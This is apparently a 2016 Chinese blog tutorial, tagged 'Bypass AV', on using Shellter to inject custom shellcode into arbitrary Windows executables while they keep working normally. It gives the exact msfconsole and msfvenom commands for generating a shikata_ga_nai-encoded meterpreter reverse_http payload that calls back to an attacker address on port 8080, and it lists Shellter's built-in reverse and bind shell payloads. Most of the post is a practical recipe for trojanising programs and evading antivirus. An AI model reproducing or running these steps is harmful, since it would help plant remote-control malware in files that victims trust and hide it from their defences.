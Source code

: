 ```yaml
---
layout: post
title:  "shellter加载自定义payload"
date:   2016-11-22 16:00:01 +0800
categories: MSF
tag: Bypass AV
---
```


* content
{:toc}


shellter可将shellcode注入到任意exe，隐身模式下原exe功能丝毫不受影响，提供自动模式或手动模式加载，菜鸟和高手都能轻松运用。

shellter自身提供个一些基本的payload，如下


    ************
    * Payloads *
    ************
    
    [1] Meterpreter_Reverse_TCP   [stager]
    [2] Meterpreter_Reverse_HTTP  [stager]
    [3] Meterpreter_Reverse_HTTPS [stager]
    [4] Meterpreter_Bind_TCP      [stager]
    [5] Shell_Reverse_TCP         [stager]
    [6] Shell_Bind_TCP            [stager]
    [7] WinExec
    
   



这里就不详细说，重点说加载自定义的payload，custom_payload

用msf或者cobalt strike等都行，这里用msf的作为例子，如下生成：

    msf > use payload/windows/meterpreter/reverse_http
    
    msf payload(reverse_http) > show options
    msf payload(reverse_http) > set lhost 192.168.1.48
    lhost => 192.168.1.48
    msf payload(reverse_http) > set exitfunc thread
    exitfunc => thread
    msf payload(reverse_http) > generate -E -e x86/shikata_ga_nai -t raw -f Green_m.raw
    [*] Writing 351 bytes to Green_m.raw ...

或者

    msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 8 -b ‘\x00’ LHOST=192.168.1.48 LPORT=8080  -f raw -o /root/Desktop/Green_m.raw

然后Select Payload的时候选择刚刚的生成的Green_m.raw。

***注：本文所做所有测试不保证完全有效，仅供参考。***

[shellter官网](https://www.shellterproject.com/)

转载请注明出处：[https://green-m.github.io/2016/11/22/shellter-load-custom_payload/](https://green-m.github.io/2016/11/22/shellter-load-custom_payload/)
